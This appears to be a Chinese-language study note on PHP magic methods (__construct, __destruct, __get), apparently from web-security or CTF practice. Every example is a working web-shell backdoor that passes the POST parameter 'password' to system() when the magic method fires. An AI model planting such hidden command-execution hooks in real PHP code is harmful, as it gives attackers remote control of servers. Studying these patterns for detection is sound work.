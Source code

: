 ```yaml
---
date: 2024-03-21 17:40:08
---
```


# php魔术方法

## __construct()——构造方法

触发条件：在对象实例化的时候自动触发

```
red  
<?php  
  
class test1{  
    function post() {  
        return $_POST['password'];  
    }  
}  
class test2 extends test1 {  
  
    function __construct()  
    {  
        echo "<br>"."调用成功"."<br>";  
        $code = parent::post();  
        system($code);  
    }  
}  
$fff = new test2;  
  
?>
```

## __destruct()——析构方法

触发条件：在销毁对象的时候自动触发（配合unset使用）

```
red  
<?php  
  
class test1{  
    function post() {  
        return $_POST['password'];  
    }  
}  
class test2 extends test1 {  
  
    function __destruct()  
    {  
        echo "<br>"."调用成功"."<br>";  
        $code = parent::post();  
        system($code);  
    }  
}  
$fff = new test2;  
unset($fff);  
  
?>
```

## __get()——访问后门

触发条件：访问私有类成员属性的时候自动触发

```
red  
<?php  
  
class test1{  
    function post() {  
        return $_POST['password'];  
    }  
}  
class test2 extends test1 {  
    private $a = 1;  
    function __get($a)  
    {  
        echo "<br>"."调用成功"."<br>";  
        $code = parent::post();  
        system($code);  
    }  
} 

$fff = new test2;
echo $fff -> a;

?>
```